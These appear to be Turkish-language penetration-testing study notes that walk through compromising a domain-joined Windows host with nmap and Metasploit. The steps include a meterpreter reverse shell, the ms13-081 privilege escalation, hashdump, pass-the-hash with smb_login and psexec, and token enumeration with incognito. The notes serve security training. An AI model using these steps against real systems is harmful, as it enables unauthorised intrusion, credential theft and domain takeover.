 **Active Directory'e dahil windows makineye sızmak:**

	=> nmap -n -sn 192.168.1.240-250 -oN up.txt (hangi host'ların up olduğunu up.txt'ye yazdırır.)
	=> cat up.txt | grep -w for | cut -d ' ' -f 5 > hedef.txt
	=> nmap -n -Pn -sS -v --open -iL hedef.txt

- Windows 7'den sonraki işletim sistemlerinde rpc servisleri bölündü ve default olarak kullanılan portlarda 49152, 49153, 49154 portları da yer almakta.

		=> nmap -n -Pn -sV --open 192.168.1.240 -vv -p 8080	(Easy File Sharing 6.9)
		=> nmap -n -Pn -sV --open 192.168.1.240 -vv -p 445 --script smb-os-discovery

- MSF'de payload'ların cinsini, yazılma şekillerindeki syntax'tan anlayabiliriz.
	- Staged payload'lar -> windows/meterpreter/reverse_tcp
	- Stageless payload'lar -> windows/meterpreter_reverse_tcp

			M> set payload windows/meterpreter/reverse_https
			M> exploit
			Met> background
			M> use ms13-081		(PWNED!)
			Shell> net user alice /domain

**- AUTH/SYS olduktan sonra yapılacak şeyler:**

	M> hashdump

**- Pass the Hash:** winlogon.exe girilen parolayı NTLM'e çevirdikten sonra (Windows'un kullandığı şifreleme algoritması) lsass.exe'ye gönderir. lsass.exe verilen hash'i SAM database'de karşılaştırır.

- Eğer hash c089c0 ile bitiyor ise kullanıcının parolası yok demektir. (Guest)

		Mtr> background
		M> use auxiliary/scanner/smb/smb_login
		M> set RHOSTS hedef.txt
		M> set SMBDOMAIN WORKGROUP 	(çünkü bizim elde ettiğimiz Admin.. hash'i workgroup'a ait)
		M> set SMBUSER Administrator
		M> set SMBPASS <HASH>
		M> set THREADS 5
		M> exploit

**- SMB kullanıcı adı ve parolası geçerli olduğu hedeflerde giriş yapabilmek için kullanacağımız modül:**

	M> use exploit/windows/smb/psexec
	Mtr> ps
	Mtr> migrate winlogon.exe	(Bunu yapma amacımız hem daha güvenli kalmak hem de meterpreter'i 32bitten 64bite çıkarmak, çünkü girdiğimiz sistem 64 bit ve komut çalıştırabilmemiz için 64bit bir process sömürüyor olmamız gerek.)

**- Token**

	Mtr> shell
	S> net user /domain
	S> net user bob /domain		(bob'un yetki seviyesini öğreniyoruz)
	S> net group "Domain Admins" /domain	(domain admins grubundaki kullanıcıları gösterir.)
	S> exit
	Mtr> load incognito
	Mtr> list_tokens -u
